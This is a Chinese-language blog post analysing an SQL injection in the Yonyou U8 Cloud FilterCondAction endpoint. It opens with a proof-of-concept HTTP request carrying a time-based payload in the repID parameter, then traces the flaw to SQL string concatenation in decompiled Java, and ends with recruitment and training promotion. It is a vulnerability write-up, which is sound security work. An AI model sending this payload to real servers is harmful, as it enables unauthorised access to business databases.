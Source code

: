 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247487737&idx=1&sn=cbb6a1cb0b5f83638f71454a5ffba8d4

#  用友OA系统U8Cloud FilterCondAction SQL注入漏洞分析  
原创 chobits02  C4安全   2025-07-18 13:19  
  
前言  
  
又来到了久违的漏洞分析环节，平时习惯性先把文章投稿到奇安信社区平台，然后再在这上面搬一下自己的文章，师傅们要是蹲第一手分析的话可以关注一下  
  
这次审计的是用友U8 Cloud系统，其中的
```
FilterCondAction
```

  
方法存在SQL注入漏洞，这是闲着没事干翻了三百多个Action方法审计出来的其中一个漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QarzbJ87BroKyQQ1VUCJOao2BJiaCiahY8Q2rft5rag8yQDiab94W94JEibQ/640?wx_fmt=gif&from=appmsg "")  
  
废话不多说，漏洞利用的POC如下  

```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.bi.report.rep.FilterCondAction&method=execute&repID=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

  
其中的
```
repID
```

  
参数存在注入，使用延时注入验证下，成功延时5秒  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QaT5iclaXx9LSarnPjGXnYRTTicEIXgEcJ5LRzic0kpaGA1YMAtTMy4AQdQ/640?wx_fmt=png&from=appmsg "")  
  
首先看漏洞位于
```
FilterCondAction
```

  
接口处，方法的完整路径为
```
nc.ui.bi.report.rep.FilterCondAction
```

  
  
  
这里只关注下面的execute方法，完整代码如下  

```
public ActionForward execute(ActionForm actionForm) {  
    FilterCondForm form = (FilterCondForm)actionForm;  
    String repID = getRequestParameter(&#34;repID&#34;);  
    AdhocModel adhocModel = (AdhocModel)BIWebRepUtil.getRepModel((IUFOAction)this, repID);  
    if (adhocModel == null)  
      return (ActionForward)new ErrorForward(StringResource.getStringResource(&#34;mbirep0007&#34;));   
    form.setRepID(repID);  
    FilterValueDescriptor fvd = null;  
    IAdhocAnalyzer[] anas = adhocModel.getDataCenter().getAnalyzerModel().getAnalyzerByType(0);  
    if (anas != null && anas.length > 0) {  
      FilterValueAnalyzer fva = (FilterValueAnalyzer)anas[0];  
      if (fva.getFilterValueDescriptor() != null)  
        try {  
          fvd = (FilterValueDescriptor)fva.getFilterValueDescriptor().clone();  
        } catch (CloneNotSupportedException e) {  
          AppDebug.debug(e);  
        }    
    }   
    if (fvd == null)  
      fvd = new FilterValueDescriptor();   
    IColumnData[] refFields = getRefFields(repID);  
    if (refFields == null || refFields.length == 0)  
      return (ActionForward)new ErrorForward(StringResource.getStringResource(&#34;mbirep0008&#34;));   
    FilterCondTableModel model = new FilterCondTableModel(fvd, refFields);  
    form.setFilterCondTableModel(model);  
    addSessionObject(getClass().getName(), fvd);  
    ActionForward actionForward = new ActionForward(FilterCondDlg.class.getName());  
    return actionForward;  
}
```

  
首先是方法接收传参
```
repID
```

  
，然后直接调用
```
repID
```

  
的有两个方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QaRcmJ5coG4YEicXNSFAZ86uIpWXKcTEJ4508DLZQg9MbHH1yNJ6L2d1w/640?wx_fmt=png&from=appmsg "")  
  
先来看第一个，追踪进入
```
getRepModel
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QauNkibUCeqYp57U47ZWicnwYPznASNZNa30PWFGphvMq7ZLT4icvsITtxg/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到
```
repID
```

  
又进入了下面的
```
loadRepModelFromDB
```

  
方法当中，追踪方法来到其中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QaibEt3ON09w9lnQQJaS8RAWJMynglFCfYoLIk749cXWDM6ciaEPqrU43g/640?wx_fmt=png&from=appmsg "")  
  
  
最后
```
repID
```

  
是进了getByIDs方法当中，最终来到漏洞点  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QaRvWRG3ggFRxX599yBwJ4NELxwhsEHK3icbv5CqbkywDLbGl7aGicr6vg/640?wx_fmt=png&from=appmsg "")  
  
  
代码如下  

```
public ValueObject[] getByIDs(String[] strIDs) throws ReportMngException {  
    int iLen = (strIDs == null) ? 0 : strIDs.length;  
    String sWhere = null;  
    if (iLen != 0) {  
      StringBuffer sbWhere = new StringBuffer();  
      sbWhere.append(&#34;pk_reportmodel in (&#34;);  
      for (int i = 0; i < iLen; i++) {  
        sbWhere.append(&#34;'&#34;).append(strIDs[i]).append(&#34;' &#34;);  
        if (i < iLen - 1) {  
          sbWhere.append(&#34;,&#34;);  
        } else {  
          sbWhere.append(&#34;)&#34;);  
        }   
      }   
      sWhere = sbWhere.toString();  
    }   
    ReportVO[] vos = null;  
    try {  
      vos = (ReportVO[])ReportBO_Client.query(sWhere, DimRescource.UFBI_DATASOURCE);  
    } catch (Exception e) {  
      handleException(e);  
    }   
    return (ValueObject[])vos;  
}
```

  
分析下，这个漏洞其实和我之前分析的华天动力OA的SQL注入一样，都是append方法拼接SQL语句，恶意语句可以闭和最后的
```
)
```

  
号导致的  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5Qayk98IlLoJzesypoLhTqkJicwaTzpPE5LXz1fGTRJG463iaMjgNHA68VQ/640?wx_fmt=png&from=appmsg "")  
  
  
方法中使用
```
pk_reportmodel in ('+repID+')
```

  
这样拼接SQL，就造成了SQL注入漏洞  
  
就这样简单的结束了(*╹▽╹*)  
  
结语  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券，加入链接：https://wiki.freebuf.com/societyDetail?society_id=184**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
  
  
  
